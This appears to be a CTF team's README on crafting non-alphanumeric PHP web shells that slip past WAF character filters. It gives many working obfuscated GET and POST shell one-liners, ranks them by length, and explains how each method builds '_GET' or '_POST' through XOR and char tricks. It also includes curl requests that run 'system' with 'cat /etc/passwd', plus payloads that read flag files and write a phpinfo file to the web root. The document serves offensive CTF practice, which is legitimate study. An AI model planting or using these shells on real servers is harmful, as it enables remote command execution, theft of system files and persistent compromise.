 # Non-Alphanumeric WebShell in PHP

The main goal of a php shell is that you can execute code on the server from the outside.

## Intro
This can happen via a normal eval shell or with a tiny shell like this:
```php
<?=`$_GET[1]`?>
```
The downside is that the most WAFs at a CTF filter alot of available chars out to make the exploitation harder.

Common chars to be blocked or filtered are 
```
"'`a-zA-Z
```

To be still able to deploy a working shell there are a few things we need to do.

At first there are already non-alphanumeric shells out in the wild but the ones I have seen had one
thing in common they needed Quotation marks to create a string once to craft letters out of it.

## Idea

So I thought to myself, that it would be a quite cool idea to develop a shell which could avoid that
and still work the same way.
That's the first Solution I came up with:

```php
<?=0;$_=[];$_.=[];$_=${(($_[0]^(0 .$_[1]))^(($_[0]^(6 .$_[1]))^($_[3]^(8 .$_[1])))).($_[3]^(1 .$_[1])).($_[4]^(6 .$_[1])).($_[3]^(2 .$_[1])).($_[3]^(5 .$_[1]))};$_[0]($_[1]);
```

Not optimal at all but it works, it crafts a string element at the start from an Array which results in a
string with the value "Array" which then can be crafted in \_POST by the xor operator.

| Char X | Char Y | Result |
|--------|--------|--------|
| A      | 0      | q      |
| A      | 6      | w      |
| q      | w      | 0x06   |
| a      | 8      | Y      |
| 0x06   | Y      | _      |
| a      | 1      | P      |
| y      | 6      | O      |
| a      | 2      | S      |
| a      | 5      | T      |

Which resulted in \_POST and then can be used to run functions with arguments over code. 
(This feature is present since php7)

And can be used like this:

```php
// $_ = ${'_POST'}
$_[0]($_[1]); // Equals to $_POST[0]($_POST[1]) => can be system('ls')
```

## Shell

That's quite cool but it was so big that it would hit different waf rules such as length restrictions.
So I started to optimize the code, I did this by restructuring the code and remove parts which are not needed.
The end result was:
```php
<?=$_=[]..1;$_=${$_[6].$_[3].$_[4].$_[3].$_[3]^($_^$_[5]).+1625};$_[0]($_[1]);
```

So you can send a request such as `0=system&1=cat /etc/passwd` over post

## Optimization

After some time has passed i started to notice that there are different ways to generate the shell base.

In general the minified version from above relies on a cast of an Array into a string.
This can cause not wanted logging or depending on the report mode broken pages.
So i started to investigate how this could be avoided, and found the following Methods:

1. Array into String `[]` => `Array`
2. Infinite result into string `9**999` => `INF`
3. Underscore constant `_` => `_`
4. Long numbers `9**99` => `2.9512665430653E+94`
5. Char Increment `'A'++` => `B`

Based on the found approaches I tried around which method would be the best fitting.
I found out that version 4) would be hard to Exploit due to the nature of the long string.
And the base from `E+` xor into anything would be to long. So I dumped this idea, and started working on the other three:

* Array into String
* Infinite result into string
* Underscore constant
* Char Increment

The speciality of the `Underscore constant` is that this will only work on pre php8 
versions since the use of underscore as constant was then removed.

## Array into String (will throw warnings)
**GET**
```php
<?=$_=[]..1;$_=$_[1].$_[1].$_[1].$_[3]^-575..-1;$$_[0]($$_[1]);
```
**POST**
```php
<?=$_=[]..1;$_=$_[1].$_[3].$_[3].$_[3].$_[4]^-1.2.-1;$$_[0]($$_[1]);
```
## Infinite result into string
**GET**
```php
<?=$_=9**999...1;$_=801..-1^($_[4].+92..$_[0])^$_;$$_[0]($$_[1]);
```
**POST**
```php
<?=$_=-9**999...1;$_=4408..-1^$_^$_[3].$_[0].$_[6].$_[0].$_[1];$$_[0]($$_[1]);
```
---
## Underscore constant (deprecated in php8)
**GET**
```php
<?=$_=[]._;$_=_.($_[2].$_[2].$_[3]^575.._);$$_[0]($$_[1]);
```
**POST**
```php
<?=$_=[]._;$_=_.($_[3].$_[4].$_[3].$_[3]^1625.._);$$_[0]($$_[1]);
```
---
## Char Increment
**GET**
```php
<?=[$_=([]..1)[0],++$_,++$_,$__=$_++,++$_,++$_,++$_,$__.=++$_,++$_,++$_,++$_,++$_,++$_,++$_,++$_,++$_,++$_,$_=$__.++$_,$__=$_(95).$_(71).$_(69).$_(84),$$__[0]($$__[1])];
```
**POST**
```php
<?=[$_=([]..1)[0],++$_,++$_,$__=$_++,++$_,++$_,++$_,$__.=++$_,++$_,++$_,++$_,++$_,++$_,++$_,++$_,++$_,++$_,$_=$__.++$_,$__=$_(95).$_(80).$_(79).$_(83).$_(84),$$__[0]($$__[1])];
```
---

## Length Ranking

| Rank | Version                     | Method | Length |
|------|-----------------------------|--------|--------|
| 1    | Underscore constant         | GET    | 58     |
| 2    | Array into String           | GET    | 63     |
| 3    | Infinite result into string | GET    | 65     |
| 4    | Underscore constant         | POST   | 65     |
| 5    | Array into String           | POST   | 68     |
| 6    | Infinite result into string | POST   | 78     |
| 7    | Char Increment              | GET    | 169    |
| 8    | Char Increment              | POST   | 176    |

To query the shells you can use the browser or this snippets:

```bash
curl https://host.ctf.com/shell.php?0=system&1=cat /etc/passwd
```

```bash
curl https://host.ctf.com/shell.php -X POST -F "0=system" -F "1=cat /etc/passwd"
```

## Extend the logic to allow enhanced function calling
Since this is a really simple shell there are some boundaries to it, such as it only allows to call
a function with one argument, and it will by default not print anything except teh function called does.

So for example if the `system` and any other shell functions is unavailable the flag needs to be extracted over 
`file_get_contents` but since this function does not print we need to print the result.

We can do this by extending the logic at the end of each shell presented above `$$_[0]($$_[1]);`.
This needs to be `$$_[0]($$_[1]($$_[2]));` this leads to a possibility to print the result like this:
`0=print_r&1=file_get_contents&2=/opt/flag.txt`

If a other function with more parameters needs to be called the logic needs to be modified with:
`$$_[0]($$_[1],$$_[2]);`.
`0=file_put_contents&1=/var/www/html/info.php&2=<?php phpinfo();?>`

You can cluster these together as you like, advice is that if you exceed more than 3 variable uses of `$$_` you should simplify
the shell to set the `$_` variable to `$$_` so we have `_GET` or `_POST` directly in the variable and can use it like this:
`$_[0]($_[1]);` this reduces the size needed.
Full example of this for the `Underscore constant` Method here:
```php
<?=$_=[]._;$_=${_.($_[2].$_[2].$_[3]^575.._)};$_[0]($_[1]($_[2],$_[3]));
```

This will allow calling of a function with unlimited parameters and print the result:
`"0=print_r&1=call_user_func_array&2=file_put_contents&3[]=hello.txt&3[]=testcontent`

---

## Contribute
If you find any other option to generate a string with chars in the range to generate `_GET` or `_POST`
I would be happy to include them in the ranking and if possible to optimize them. 
The only restriction is that it needs to be less than `200 chars`

Cli-Ish over and out.

PS: Checkout our cool team page https://pwnprophecy.xyz
